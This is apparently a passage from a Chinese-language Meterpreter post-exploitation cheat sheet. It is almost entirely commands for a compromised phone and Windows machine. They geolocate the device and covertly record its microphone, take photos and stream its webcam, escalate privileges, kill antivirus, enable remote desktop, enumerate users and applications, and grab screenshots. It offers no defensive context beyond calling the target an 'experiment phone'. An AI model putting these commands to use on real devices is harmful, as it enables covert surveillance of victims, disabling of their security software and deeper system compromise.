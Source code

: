 ```markdown
#获取实验手机Wi-Fi定位信息
wlan_geolocate

# 控制实验手机录音：
record_mic -d  5

# 获取实验手机相机设备
webcam_list

# 控制实验手机拍照
webcam_snap

# 直播实验手机摄像头
webcam_stream
```


### 2.2 针对Windows的一些命令
```markdown
# 查看进程
ps

#查看当前进程号
getpid

# 查看系统信息
sysinfo

# 查看目标机是否为虚拟机
run post/windows/gather/checkvm

# 查看完整网络设置
route

# 查看当前权限
getuid

# 自动提权
getsystem

# 关闭杀毒软件
run post/windows/manage/killav

# 启动远程桌面协议
run post/windows/manage/enable_rdp

# 列举当前登录的用户
run post/windows/gather/enum_logged_on_users

# 查看当前应用程序
run post/windows/gather/enum_applications

# 抓取目标机的屏幕截图
load espia ； screengrab

# 获取相机设备
webcam_list

# 控制拍照
webcam_snap

# 直播摄像头
webcam_stream
```